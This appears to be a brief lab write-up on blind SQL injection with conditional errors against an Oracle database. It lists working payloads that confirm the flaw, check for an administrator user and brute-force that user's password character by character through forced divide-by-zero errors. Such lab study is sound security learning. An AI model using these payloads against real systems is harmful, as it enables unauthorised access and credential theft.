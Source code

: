 ![image](https://github.com/user-attachments/assets/51c33d60-b91c-43af-b8a1-7e9dcd6f123c)# Lab 12 - Blind SQL injection with conditional errors

since this oracle database we will use different information sechame and operators

## 1) Confirm that the parameter is vulnerable to blind SQLi
by using payload
' || (select '' from dual) || '
the response have no error code which is okay 
if we try something wrong i see error
like ' || (select '' from dualsaasaasasassa) || '

## 2) Confirm that we have a users and administrator user in table
' || (select '' from users where rownum =1) || ' 
we have no error
then 
' || (select '' from users where username='administrator') || ' 
there's no error

##  3) bruteforce the password character by character 
3'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

![image](https://github.com/user-attachments/assets/846b2816-119f-4bf7-b615-9175819904f8)
